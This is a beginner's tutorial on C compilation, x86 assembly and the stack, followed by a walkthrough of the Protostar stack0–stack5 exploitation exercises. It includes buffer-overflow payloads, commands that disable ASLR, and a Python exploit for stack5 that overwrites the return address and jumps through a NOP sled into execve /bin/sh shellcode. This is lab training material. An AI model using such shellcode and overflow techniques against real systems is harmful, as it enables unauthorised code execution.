

# A small note before starting

This discussion is mainly realted to debugging and thus I will mostly compile c files for example. Sp the **-g** parameter during compiling of the program is important for debugging. If you miss this option then gdb will not work properly on the binary. Refer the second answer of this [Stackoverflow post](https://stackoverflow.com/questions/9245685/gdb-no-symbol-table-is-loaded).

# Let's Start small

Let's start with a simple C code 👇

```c
#include <stdio.h>

int main(int argc, char *argv[]) {
        printf("Hello World\n");
        return 0;
}
```

So, to run this code we need a compiler which converts the plain text to a program.
We can use a mordern compiler like GCC 👇

```bash
gcc filename.c -o outputname -Wall
```

'-Wall' is actually needed to detect if any warnings are there or not.
After this you get a executable file. So, now you can execute the file as 👇

```bash
./outputname
```

## Avoiding the annoying path

So, here you see that you have to provide the path of the program in the bash. So, that can be avoided if you put the path of this program in the PATH environment variable.
That can be easily done like 👇

```bash
export PATH=$PATH:/yourpath
```

Remember to always give the absolute path.
Now you can acess you executable program from anywhre just using the name of you program just like inbuild commands like 'ls',  etc.

## Arguments

'argc' is actually the argument count and the 'argv' is the vector or array of the arguments.
To understand this in greater detail you might want to understand that how arguments are passed from the shell to the program.
Actually all the space seperated words are one argument starting from the promt. So, if you have four space-seperated words, then you have four arguments.
Example 👇

***prompt $*** outputname arg2 arg3
                arg[0]   arg[1] arg[2]

If you want two to place a space between two words but want to get them as only one arg then you have to use "" like 👇

Lets modify the program a bit 👇

```c
#include <stdio.h>

int main(int argc, char *argv[]) {
    if(argc==2){
        printf("Hello %s\n", argv[1]);
    }else{
        fprintf(stderr, "Usage %s <name>\n", argv[0]);
        return 1;
    }
    return 0;
}
```

And now let's run it 👇

```bash
outputname "My Name"
```

And we should get output like this 👇

```bash
Hello My Name
```

A quick interesting thing 😎🌟

If you place the execution command of the program in the .bashrc file (which is in the home folder) then whenever you open a terminal you will see that program running and using that you can do anything like greet yourself or any anymation or ....anything.....

## Python

Next let's take a mordern language like Python 🐍

So, let's take some time to understand python. So, actually python is a higher level language written in C programming language. So, you can consider it in such a way that one day someone has written a C program called python.c and compile it to a file called python. And then if you add that output file path to the PATH env variable then you can execute the python by just writting "python". And the program is written in such a way that you can pass any filename in the argument and if the contents of the file are written acording to the documentation of python then the compiler or the program will eun the code. So, actually the C output file is only executing the code in the backend.

Now let's start with a simple code 👇

```python
import sys
if (len(sys.argv)==2):
    print("Hello {0}".format(sys.argv[1]))
else:
    sys.stderr.write("Usage {0} <name>\n".format(sys.argv[0]))
```

Now execute the file using 👇

```bash
python filename.py
```

So, you have to write this "python" everytime you execute a program. So, to avoid this you need to somehow mention in the progra that with what you want to execute this program as this is not an assembly level code.
Sp, you you can do this by using "shebang" 👇

```python
#!/usr/bin/python3
import sys
if (len(sys.argv)==2):
    print("Hello {0}".format(sys.argv[1]))
else:
    sys.stderr.write("Usage {0} <name>\n".format(sys.argv[0]))
```

Now you can execute the file just as your C file.

```bash
./filename.py
```

And if you want to remove the path and run it as a command then you know what to do, right?
But wait one more error will occur if you do this stating - "Permission denied"
So, this error occurs because the file is does not have executable options enabled. When you were mentioning **python filename.py** then there you were directly not executing the file. But here you are doing that. So, you have to make the file executable with "chmod".

After the shebang I wrote the path of the python compiler.
So, that's it for python now let's understand that how the compiled C program work.

## How CPU works 🛠🔧

So, suppose you are writting some instructions in a paer from top to bottom. So, like your line will have line number in computers also we have some numbers to point to that instruction. So, instead of the lines as 1, 2, 3, 4.... they are stored in hexadecimal values. So, now the assembly language have 8-32 global variables of fixed size called **Registers**. So, as mentioned these registers are of fixed size that is either 32-bit or 64-bit.
So, there are some important registers like 👇

- Program Counter or Instructuin Pointer(IP) or EIP or RIP. So, this pointer will contain the nextinstruction we will be executing. You can cosider that it contains the line number we will be executing next. So, everytime one instruction is executedwe advance the IP or PC.

Virtually all computations are expressed as simple operations on registers. Remember I wrote the values in hexadecimal. Like 👇

```assembly
mov eax, 0x5
add eax, 0x4
mov ebx, 0x2
sub eax, ebx
```

Actually we cannot write a real program using only 32 1-byte variables.
So, now if all the registers are filled up then we can store the next things in memory.
And you can acess values from memory by using loads and stores at addresses, i.e just like arrays or using PUSH and POP operation. So, let's see the first option 👇

```assembly
mov eax, [14]
```

So, here the value is retrived from the memory location 14.
Now stack is actually just like stacks we learned in programming. An amount of space or an array at the **bottom** of the memory. So, there is a special pointer called Stack Pointer or SP or ESP or RSP stores the value of the highest filled up point of the stack. So, as new elements are inserted into the stack the pointer moves up i.e decreases and as elements are removed the pointer again lowers or increase in value.

So, next we need to talk about **GOTO** - jumps, branches or calls.

## Example

Ok so let's see an example to make it more clear.
Let's write an simple program for printing  fibonacci series upto 255 infinite number of terms. 👇

```c
#include<stdio.h>

int main(int argc, char* argv[]){
    int x, y, z;
    while(1){
        x=0;
        y=1;
        do{
            printf("%d\n", x);
            z=x+y;
            x=y;
            y=z;
        }while(x<255);
    }
    return 0;
}
```

So, first compile the file using gcc 👇

```bash
gcc -g fib.c -o fib -Wall
```

So, an executable file **fib** will be created.
Now, let's get the assembly code out of the *fib* file. So we will use gdb 👇

```bash
gdb fib.c
```

It will open a prompt like **(gdb)**. So, we ccan disassemble each function. So, here we have only one function main. So, let's disassemble *main* function. 👇

```bash
disassemble main
```

So, you have two styles of dumping assembly language **att** and **intel**.
You can swap between them and also see you present flavour by using 👇

```bash
set disassembly-flavor att
set disassembly-flavor intel
show disassembly-flavor
```

So, now after disassembly you will get the assembly code 👇



So, the analysis of the code is also shown above.
Similarly try to analyze the assembly code of the key_cracking program provided in this repo.

So, understand the assembly language you must understand four concepts 👇

- Heap
- Stack
- Registers
- Instructions

### Heap

We can understand heap simply as a place to store data using malloc, calloc. Also the global and the static variables are stored in Heap.

## Registers

These are also storage places in memory and can store address values which are 8 bytes or less.
In the X86 architecture there are six general purpose registers - **eax, ebx, ecx, edx, esi, edi**.
There are also three registered special purposse registers - **ebp, esp, eip**. So, we will discuss them a bit later.
But before let's talk about stack.

## Stack

- Stack are just exactly like the stack data structure. As we know stack has two operations **push** and **pop**. As we know that stack grows from bottom to up. And as we know thaat memory address increase from top to bottom. So we can conclude that stack grows by decreasing address number i.e the newer element will have less address memory number than the old one.
- Whenever a function is called the function is stored in the stack called as stack frame i.e a part of the stack. IT contains many stack elements which contain all the local variables of the present function.
- Now let's talk about the special registers. **ebp** is the register which marks the base of the present stack frame. So, it is called the base pointer.
- **esp** is called the stack pointer and contains the address of the topmost element of the present stack frame. So, as one element is inserted into the stack the *esp* decreases by 1 and if popped then esp increases by 1.

Now let's see that how the stack behaves when a function is called. 👇

```c
#include<stdio.h>
#include<stdlib.h>
void func(int x;){
    int a=0;
    int b=x;
}
void main(){
    func(10);
}
```

So, now let's closely analyze that how the *func* function works 👇
(Remember that here I will write the numbers as hexadecimal format like 0x4 or 0xff, etc.)
First of all the argument value of the function is pushed on to the stack. Because you know that registers are not enough to store all the variable's value so memory is to be used. Then the return address is put on the stack. Then the **ebp** is put above the return address stack element and the **esp** is assigned same value to **ebp**. After this as elements are added to the stack the **esp** pointer moves up. This are bwtween the esp and the ebp is called the function's stack frame.These sequence of instructions are called function prologue.
Ok, so now first the value 0 is pushed in the stack frame as "a" is assigned as 0. So, can you tell the address of the local variable "a"? Yess, it is at address **ebp-0x4**. Its 4 because size of an integer is 4.
Now in the next step we assign the value of b to the argument value stored outside the present stack frame. Actually we can't copy the value outside this stack frame directly to the stack frame because we knoe that any value in the stack outside the current stack frame is considered junk by the current stack frame. So, here the general purpose registers comes in play. The value of the argument is moved to a general purpose register and then from the register it is copied to the stack frame.

## Assembly Language

Ok now let's analyze the assembly language in deep. So, there are two types of assembly language flavours - **att** and **intel**.
So, let's for now take intel in our consideration.
So, an assembly languagecontains insructions. Each instruction has two parts - **operation** and **argument**. An operation can take one or two arguments. If there are two arguments they are seperated by a ",". Like 👉 **operation arg1,arg2**.
So, let's take example of **mov** instruction. So, move instruction has two arguments. So, here it copies the value fro the lacation mentioned by its second argument to the location mentioned by its first argument.
Now there is a small twist here. Cosider a stack address of **ebp-0x8**, and we want to copy its value to a register let **eax**. So you can't write like 👇

```assembly
mov eax, ebx-0x8
```

Because ebx-0x8 is an address on the stack where the value is stored. So, actually here we have to dereference it just as we did in pointers in C/C++. Only difference is that there you used \* and here you use []. So, the syntax would be 👇

```assembly
mov eax, [ebx-0x8]
```

The **add** instruction adds the two arguments and store it in the firts argument.

The **sub** instruction does the same thing as the above only it substracts and add, adds. **arg1-arg2**.

The **push and pop** takes one argument. The **push** decreases the esp by one and places the arg at the position the esp is pointing at. The **pop** takes a register as argument. It copies the value pointed by the esp to the register and then increases the esp by 1.

The **lea** is the Load Effective address. Ti is used to put an address specified by its second argumet to the register specified by its first argument. Example 👇

```assembly
lea reg, addr
```

reg and addr will be the name of regster and value of the address respectively.

## Flow

Now let's get into the flow of the program.
So, every instruction has an instruction address which is the left most column in the assembly code. This is the are in memory where the instruction is stored.
So, the third special register is the **eip** or the instruction ponter. This contains the address of the instruction to be executed. So, the computer always executed the instruction in the address contained in the instruction pointer.
Again le's get back to some of the instructions.

## Some more instructions

The **cmp** or the compare instruction is just like compairision in your programs you write. But, here you have to understand that how it works. So, for that you can compare it with the *sub* instruction. So, the second argument is substracted from the first argument (arg1-arg2) and the result is not stored in the first argument as it was in the *sub*. Instead it will set a flag in the processor that contains the value equas to 0, greater than 0 or less than zero. For example if you run **cmp 0x1,0x3**. So, (1-3) is (-2) and therefore <0 will be set in the flag.

The **cmp** instruction is always followed by a jump instruction. The jusmp instruction reacts according to the state of the flag. There are many types of jump instructions - **je (jump if equal to), jne (jump if not equal to), jg (jump if greater than), jl (jump if less than)**. So, if suppose the flag is set to <0 and we use jne then it will execute. If the flag is >0 and we use jl then it will not be executed. Oh we talked about executuion but what is the execution? Actually if the instruction is executed then the eip (instruction pointer) will be set to the argument of the jump instruction which is nothing but an address of an instruction.

The **call** instruction used for calling any function be it user defined or default function. It has one argument like **call func**. It actually does two steps 👇

```assembly
push eip
jmp func
```

So, it pushes the present instruction address onto the stack and then moves the eip to the function address.

The **leave** instruction is called at the end of every function. It actually destroyes the current stack frame by setting the esp=ebp and popping the base pointer of the stack.

The **ret** (or return) instruction always follows the leave instruction. Since the base pointer is popped out of the stack the return address is at the top of the stack. So the return address will be popped out and the eip will be set equal to the return address.

## An interesting topic

We know that using chmod command we can change the permissions of a file to read(r), write(w) and executable(x). But there is another interesting permission called **"s"**. This allows anybody to run the program with the previlage of the owner of the file. This permission statys in place of the **"x"** for the owner permissions. This **"s"** bit can also be set in the group permissions. Thus anybody can run the file with group permission. Learn more about this in this short [video](https://www.youtube.com/watch?v=2gHp_CgUets).

## Radare2

Radare2 is a great tool for debugging just like gdb. More about this later.

## Starting with protostar

Protostar is a set of exersise to practice memory overflow exploits. So, protostar is available on the [official website]() as an iso file. Which you can then run on a VM. But to increase the performance I prefered to run it on docker. And luckily I found this [github repo]() where he dockerised the image. So, you can either follow their README or you can just build the dockerfile and run the image that's it protostar is ready.
So, as stated in the official page the exploit excersises are present in /opt/protostar/bin directory.
And also the source code of the levels are found in that page.
OK, let's start with level 0.
**Description of the answers will be written later. For now I am only writting the answers**

### Understanding ASLR concept

Understanding ASLR(address space layout randomization) is a bit difficult without knowing anything about registers. But still in simple words I can say that ASLR is a feature provided by OSs to prevent buffer overflow attacks by randomizing the esp varialble everytime of code execution. Specifically you will understand ASLR concept in the stack5 challange as there you have to redirect the code to the esp itself and if you are unsure of the esp then how can you redirect it over there? Yes there are other ways but disabling ASLR makes things quite smooth at the beginning. Take this small example :
**To enable ASLR :**

```bash
echo 1 > /proc/sys/kernel/randomize_va_space
```

Erite this small C code to see the value of *esp*:

```c
#include <stdio.h>
void main() {
        register int i asm("esp");
        printf("$esp = %#010x\n", i);
}
```

Compile and execute. Did you notice that the esp changes everytime you execute the binary? This is due to ASLR.
Now disable ASLR.

**To disable ASLR :**

```bash
echo 0 > /proc/sys/kernel/randomize_va_space
```

And execute, esp stays same right?
Hopefully you got a brief idea of the ASLR.

### Level 1 (./stack0)

Here you get a deeper knowledge about memory structure. Also you will understand some cool techniques of how to debug in gdb.
Like, you can use **break *address** to put a breakpoint at the address.
x commands are super useful you can use x commmands to view the memory. More details about x commmands [here](https://visualgdb.com/gdbreference/commands/x).
You can use **info registers** to view the contents of the registers.
You can use **define hook-stop** to write some commads which will be automatically executed on breakpoints.

**Answer** - stdin -> *AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA*

### Level 2 (./stack1)

**Answer** - argument -> *AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba*

### Level 3 (./stack2)

 Ok! Third level! This problem is absolutely similar to the second problem. The only difference is that here the modified variable will be fetched from the environment variable called 'GREENIE'. Ok so simply we have to set a environment variable named 'GREENIE' and set it to the required value. The value is almost same as the second one only the last four characters change. And that's it. **But there is a small difficulty in setting this last 4 variables**. So, we have to set the modified variable as '0x0d0a0d0a'. So if you analyze it, then you can find that this translates to '\n\r\n\r' .. you can take a reference to the [ascii table](http://www.asciitable.com/). So hwo to write these caracters in the variable. After searching a bit I found these two pages - [stackexchange](https://superuser.com/questions/154936/echo-text-with-new-line-in-bash/154937#:~:text=use%20ctrl%2Dv%20ctrl%2Dm,control%20characters%20into%20the%20terminal.) and [ASCII control codes](https://jkorpela.fi/chars/c0.html) and [stackoverflow](https://stackoverflow.com/questions/9139401/trying-to-embed-newline-in-a-variable-in-bash).
 So, basically the first link states the you can insert these ascii characters with key combinations after pressing ctrl-v. And the second link is a link of all those key combinations. Ok the /r was done by bya pressing ctrl-m. But there was a problem with /n. So that's why I used the method described in the third link to insert /n.
 Thus after a half hour of hustling the succes full **answer** came out ->
 *export GREENIE="AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"$'\n'"^M"$'\n'"^M"*

### Level 4 (./stack3)

In this level we deal with multiple functions. Previously we had only one main function. But now we will have other defined functions also. Like in this challange we have a function called *win*. And actually our main target is to find the address of that functions. If we find the address of that functions then we can easily pass that value to the *fp* functions pointer variable using stack overflow and thus our challange will be solved.
And we can easily do it with *x* command.
You can also use the *p* command.
And that's it we have succesfully found out the address of win function.
Now let's do the overflow.
**A small note that the hex values don't correspond to any proper ascii characters. So we use python to create the string. So, here I used python 2 because I was facing some problem with python 3. So, if you have python 2 installed then you can run the ./protostar/stack3/stack3.sh file and then do as it will be directed by that file.**

## Level 5 (./stack4)

**Stack4 takes a look at overwriting saved EIP and standard buffer overflows.**
So, actually when we switch to a new function then the address of the next instruction of the parent function is stored in the esp and tnen **ebp is pushed on top of esp** to keep **a reference where the esp is i.e *the return address is***. And then we can freely move the esp and create a stack frame and then when the function execution is done then we just move the **esp to (ebp+0x4)** and then move the eip to that address contained in the esp. And that's it we reach the parent function.
Thus a function execution takes place.
**This is also true for the main function because the main is also called by some other fucntion written by the compiler.**
And this is the feature we take use of.
So, if we overflow the buffer and set the value of the return address i.e (ebp+0x4) to the address of win function then our code will be redirected to that function. And that's it we have succesfully made it to the win function.
**Imp. Note : We called the win function but we did'nt set the stack frame, return address, etc. So, after execution of the win function the eip will be moved to the (old esp+0c4+0x4) and obviously no proper instruction is present at that address so it will raise a segmentaion fault. But we have succesfully reached our destination so we don't care about the error later.**
So, the python exploit is as follows :

```python

```

Run it as:

```bash

python exploit.py | ./stack4

```

## Level 6 (./stack5)

 So, in the previous challange we set the value of return address to be the address of **win** function but here we are having no such funciton. Rather here we will try to execute our own shell code.So instead of puttting address of any other function in (ebp+0x4) we can put the address of (esp+0x4) and then in the overflow payload we will add the shellcode after that address. So, the program will be redirected to the start of the shell code. So, now our payload looks like this : **padding+eip+shellcode**.
 But if you are in different directory or change your environment variables sometime the address of esp may change thus resulting our exploit to fail as it would not be able to find our shellcode. For this reason we put some NOP(/x90) bytes after the eip and then add the shell code. And then in the eip we just redirect it to (esp+0x4+n) where n is some more value which we can adjust to fit the best.So, NOP code is basically a pass instruction. That is the eip will just flow through the NOPsled.
 You can also add '\xCC'(itn3) at some palce. This is the breakpoint isntruction. So, the code execution pauses when it hit this instruction.
 So, here I have used a shell code to just run a dash shell. You can get many other shell codes from [Shell-storm](http://shell-storm.org/shellcode/).
 So here is the exploit code(exploit.py):

 ```python

import struct
padding="A"*(80-4)
#eip='\x10\xd7\xff\xff' #0xffffd710 #ffffd700
eip=struct.pack("I", 0xffffd710+80) #0xffffd72e
nopsled="\x90"*100
breakpoint="\xCC"*4
shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
print padding+eip+nopsled+shellcode

 ```

Ok so now if you run this like :

```bash

python exploit.py | ./stack5

```

Then you will see that nothing shows up. This is because the shell wants some input to run and when out exploits completes its print it quits and closes its pipe thus leaving the shell with no input and so the shell closes. So, overcome this problem we run the exploit and pipe its output to the stack5 then the stack5 process is converted to dash and now we pipe the cat command to the dash. It can be dome something like this:

```bash

(python exploit.py ; cat) | ./satck5

```

So, now the cat takes input from the stdin and pipes it to the dash which then process it and prints it in the stdout.

**Note that you might get segmentation fault or illegal instruction error. For that you have eto play a bit with the eip value and the nopsled value.**
